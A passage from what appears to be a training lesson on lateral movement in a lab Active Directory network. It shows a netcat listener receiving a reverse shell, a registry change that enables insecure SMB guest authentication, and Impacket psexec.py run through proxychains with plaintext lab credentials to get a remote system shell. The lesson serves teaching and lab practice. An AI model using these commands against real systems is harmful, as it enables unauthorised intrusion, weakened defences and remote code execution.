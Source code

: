 Once Microsoft Edge is opened by any user in the domain, we will instantly get a reverse shell:

```shell-session
BusySec@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

C:\Program Files (x86)\Microsoft\Edge\Application>
```

It is important to keep in mind that to use SMB share folder without authentication we need to have the following registry key set to `1`:

```powershell-session
PS C:\Tools> reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
    AllowInsecureGuestAuth    REG_DWORD    0x0
```

The above registry key is responsible for allowing guest access in SMB2 and SMB3 which is disable by default on Windows. If have an account with administrative rights, we can use the following command to allow insecure guest authentication:


```powershell-session
PS C:\Tools> reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.
```

## Lateral Movement From Linux
To achieve lateral movement from Linux we can use the [Impacket](https://github.com/fortra/impacket) tool set. `Impacket` is a suite of Python libraries designed for interacting with network protocols. It focuses on offering low-level programmatic control over packet manipulation and, for certain protocols like `SMB` and `MSRPC`, includes the protocol implementations themselves.

### Psexec.py

[Psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) is a great alternative for Linux users. This method is very similar to the traditional `PsExec` tool from SysInternals suite. `psexec.py` creates a remote service by uploading an executable with a random name to the `ADMIN$` share on the target Windows machine. It then registers this service via RPC and the Windows Service Control Manager. Once registered, the tool establishes communication through a named pipe, allowing for the execution of commands and retrieval of outputs on the remote system. Understanding this mechanism is crucial for effectively utilizing the tool and appreciating its role in facilitating remote command execution.

We can use `psexec.py` to get remote code execution on a target host, administrator login credentials are required. We must provide the domain, admin level user, password, and the target IP as follows `<domain>/<user>:<password>@<ip>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q psexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 172.20.0.52.....
[*] Found writable share ADMIN$
[*] Uploading file sRhFLBbo.exe
[*] Opening SVCManager on 172.20.0.52.....
[*] Creating service KQWG on 172.20.0.52.....
[*] Starting service KQWG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.5830]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
